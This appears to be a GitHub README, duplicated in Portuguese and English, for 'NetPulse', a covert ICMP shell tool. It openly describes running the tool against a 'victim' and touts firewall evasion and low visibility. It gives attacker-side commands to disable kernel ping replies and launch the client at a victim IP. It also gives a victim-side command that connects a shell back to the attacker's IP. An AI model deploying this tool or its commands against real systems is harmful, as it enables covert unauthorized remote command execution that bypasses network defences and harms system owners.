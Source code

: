 <!-- # Guia de Uso do NetPulse - Ferramenta de ICMP SHELL

O NetPulse é uma ferramenta de ICMP SHELL que não requer acesso root do lado da vítima. Este guia fornece informações detalhadas sobre como usar o NetPulse.

## Vantagens do NetPulse
- **Não requer acesso root:** O NetPulse elimina a necessidade de acesso root no lado da vítima.
- **Camuflagem:** O tráfego ICMP é comum e frequentemente permitido em redes e firewalls.
- **Menos visibilidade:** Mensagens ICMP não deixam rastros nas tabelas de estado da maioria dos firewalls.
- **Utilidade em redes restritivas:** Em redes onde o tráfego TCP ou UDP é estritamente controlado, o ICMP pode ser uma alternativa.

## Desvantagens do NetPulse
- **Shell Limitada:** O NetPulse oferece uma shell limitada e não interativa.
- **Tráfego Incomum:** O tráfego gerado pelo NetPulse pode ser detectado por sistemas de detecção de intrusão.
- **Alta Lentidão:** Em comparação a uma reverse shell, o NetPulse é muito mais lento.

## Configuração do Lado do Atacante
A configuração do lado do atacante é mais complexa e requer acesso root. Siga os passos abaixo:

### Desative a resposta automática de pings do Kernel:

Verifique o valor do arquivo `/proc/sys/net/ipv4/icmp_echo_ignore_all`:
```bash
$ cat /proc/sys/net/ipv4/icmp_echo_ignore_all
```
Altere o valor para "1" para desativar as respostas automáticas:
```bash
$ echo 1 | sudo tee /proc/sys/net/ipv4/icmp_echo_ignore_all
```
Faça as alterações permanentes em `/etc/sysctl.conf`:
```bash
$ sudo nano /etc/sysctl.conf
```
Adicione a seguinte linha:
```
net.ipv4.icmp_echo_ignore_all = 1
```
Aplique as configurações:
```bash
$ sudo sysctl -p
```

### Iniciando o Cliente

Para iniciar o cliente, execute o arquivo [netpulse_client.py](/netpulse_client.py) com permissões de root:

```bash
$ sudo python3 netpulse_client.py <IP-da-vítima>
```
Para obter mais opções, use a flag -h:
```bash
$ python3 netpulse_client.py -h
```

## Configuração do Lado da Vítima
A configuração do lado da vítima é mais simples e não requer acesso root. Certifique-se de que as seguintes ferramentas estejam instaladas:

- [iputils-ping](https://packages.debian.org/bullseye/iputils-ping) - Ferramenta para testar a alcançabilidade de hosts de rede.
- [xxd](https://packages.debian.org/bullseye/xxd) - Ferramenta para criar (ou reverter) um despejo em hexadecimal.

Se todas as ferramentas necessárias estiverem instaladas, execute o arquivo [netpulse_server.sh](/netpulse_server.sh):
```bash
$ chmod +x netpulse_server.sh && ./netpulse_server.sh <IP-do-atacante>
```

# Buy me a Coffe :p

<a href="https://www.buymeacoffee.com/ryan.r" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/default-orange.png" alt="Buy Me A Coffee" height="41" width="174"></a> -->

# NetPulse Usage Guide - ICMP SHELL Tool

NetPulse is an ICMP SHELL tool that does not require root access on the victim's side. This guide provides detailed information on how to use NetPulse.

## Advantages of NetPulse
- **No Root Access Required:** NetPulse eliminates the need for root access on the victim's side.
- **Camouflage:** ICMP traffic is common and often allowed in networks and firewalls.
- **Reduced Visibility:** ICMP messages leave no traces in the state tables of most firewalls.
- **Useful in Restrictive Networks:** In networks where TCP or UDP traffic is strictly controlled, ICMP can be an alternative.

## Disadvantages of NetPulse
- **Limited Shell:** NetPulse provides a limited and non-interactive shell.
- **Uncommon Traffic:** Traffic generated by NetPulse can be detected by intrusion detection systems.
- **High Latency:** Compared to a reverse shell, NetPulse is much slower.

## Attacker-Side Configuration
Attacker-side configuration is more complex and requires root access. Follow the steps below:

### Disable Kernel Auto-Response to Pings:

Check the value of the `/proc/sys/net/ipv4/icmp_echo_ignore_all` file:
```bash
$ cat /proc/sys/net/ipv4/icmp_echo_ignore_all
```
Change the value to "1" to disable automatic responses:
```bash
$ echo 1 | sudo tee /proc/sys/net/ipv4/icmp_echo_ignore_all
```
Make the changes permanent in `/etc/sysctl.conf`:
```bash
$ sudo nano /etc/sysctl.conf
```
Add the following line:
```
net.ipv4.icmp_echo_ignore_all = 1
```
Apply the settings:
```bash
$ sudo sysctl -p
```

### Starting the Client

To start the client, execute the [netpulse_client.py](/netpulse_client.py) file with root permissions:

```bash
$ sudo python3 netpulse_client.py <victim-IP>
```
For more options, use the -h flag:
```bash
$ python3 netpulse_client.py -h
```

## Victim-Side Configuration
Victim-side configuration is simpler and does not require root access. Ensure that the following tools are installed:

- [iputils-ping](https://packages.debian.org/bullseye/iputils-ping) - Tool for testing the reachability of network hosts.
- [xxd](https://packages.debian.org/bullseye/xxd) - Tool for creating (or reversing) a hexadecimal dump.

If all the necessary tools are installed, run the [netpulse_server.sh](/netpulse_server.sh) file:
```bash
$ chmod +x netpulse_server.sh && ./netpulse_server.sh <attacker-IP>
```

# Buy me a Coffee :p

<a href="https://www.buymeacoffee.com/ryan.r" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/default-orange.png" alt="Buy Me A Coffee" height="41" width="174"></a>

